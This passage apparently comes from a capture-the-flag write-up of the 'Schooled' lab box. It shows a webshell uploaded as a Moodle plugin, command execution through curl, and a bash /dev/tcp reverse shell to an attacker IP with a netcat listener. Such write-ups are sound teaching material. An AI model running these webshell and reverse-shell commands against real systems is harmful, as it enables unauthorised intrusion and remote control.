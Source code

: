 I'll upload that via the administrator panel:

![](/img/image-20210401175829804.png)

The next page shows a bunch of OKs (and a couple warnings) and I can
click continue at the bottom:

![](/img/image-20210401175921082.png)

Now the webshell is available:



    oxdf@parrot$ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
    uid=80(www) gid=80(www) groups=80(www)



It seems like the box is periodically cleaning up plugins as well.

### Shell

#### Initial

I'll use the webshell to get a reverse shell. Interesting, even though
the box is BSD, the Bash reverse shell works perfectly:



    oxdf@parrot$ curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php



At `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.234] 41068
    bash: cannot set terminal process group (1039): Can't assign requested address
    bash: no job control in this shell
    [www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ id
    uid=80(www) gid=80(www) groups=80(www)



For people used to Linux, it's worth noting that the web root isn't
`/var/www.md` as is typically seen there, but rather
`/usr/local/www/apache24/data`.

#### Upgrade

Python doesn't appear to be installed on the box:



    [www@Schooled /]$ which python
    [www@Schooled /]$ which python3


